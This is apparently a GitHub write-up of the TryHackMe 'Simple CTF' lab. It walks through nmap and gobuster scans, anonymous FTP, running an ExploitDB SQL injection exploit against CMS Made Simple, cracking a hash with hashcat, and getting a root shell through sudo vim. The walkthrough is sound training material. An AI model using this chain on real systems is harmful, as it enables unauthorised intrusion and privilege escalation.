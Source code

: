 # TryHackMe - Simple CTF Walkthrough

**Completed:21st April 2025  
**Room URL:** https://tryhackme.com/room/simplectf  
**Focus:** Enumeration, Web Exploitation, Password Cracking, Privilege Escalation

---

## 🧠 Overview

Simple CTF is a beginner-friendly Capture the Flag room on TryHackMe that walks through common penetration testing steps — from port scanning and web exploitation to password cracking and privilege escalation.

---

## 🛠️ Tools & Techniques Used

- Nmap
- Gobuster
- FTP (anonymous login)
- Searchsploit
- Python2 exploit
- Hashcat
- SSH
- Vim (sudo misconfig)
- GTFOBins

---

## 🔎 Step-by-Step Walkthrough

### 1. Enumeration

#### 🔍 Nmap Scan
```bash
nmap -sC -sV -oN nmap_initial.txt <TARGET_IP>
Findings:

Port 21 (FTP) — anonymous login allowed

Port 80 (HTTP)

Port 2222 (SSH)

📂 FTP Access
bash
Copy
Edit
ftp <TARGET_IP>
# Login as: anonymous
Retrieved a file named ForMitch.txt containing a password hint.

🧭 Gobuster Web Directory Scan
bash
Copy
Edit
gobuster dir -u http://<TARGET_IP> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,html
Found: /simple — a web app using CMS Made Simple

2. Vulnerability Discovery
Identified CMS version (e.g., 2.2.8). Searched for vulnerabilities:

bash
Copy
Edit
searchsploit "CMS Made Simple 2.2.8"
Found CVE-2019-9053 — SQL Injection (ExploitDB ID 46635)

3. Exploitation
Download Exploit:
bash
Copy
Edit
searchsploit -m 46635
Exploit requires Python2 and the termcolor library:

bash
Copy
Edit
sudo pip2 install termcolor
Run exploit:

bash
Copy
Edit
python2 46635.py -u http://<TARGET_IP>/simple
Result: Retrieved username (mitch), hash, and salt.

4. Password Cracking
Used Hashcat with appropriate hash mode (e.g., MD5 + salt):

bash
Copy
Edit
hashcat -m 20 hash.txt /usr/share/wordlists/rockyou.txt
Cracked password: secret

5. Gaining Access
SSH into the machine:

bash
Copy
Edit
ssh mitch@<TARGET_IP> -p 2222
Found and captured user.txt flag.

6. Privilege Escalation
Checked sudo permissions:

bash
Copy
Edit
sudo -l
Finding: Mitch can run /usr/bin/vim as root.

Used GTFOBins technique to get a root shell:

vim
Copy
Edit
sudo /usr/bin/vim
# Then inside vim:
:!/bin/bash
Navigated to /root and captured root.txt flag.

🏁 Flag Summary (Redacted)
User Flag: THM{***************}

Root Flag: THM{***************}

📌 Key Takeaways
Always check FTP access — anonymous login can leak useful info

Directory enumeration often reveals web app entry points

Understanding how to adapt exploits and resolve Python issues is key

GTFOBins is a critical resource for privilege escalation


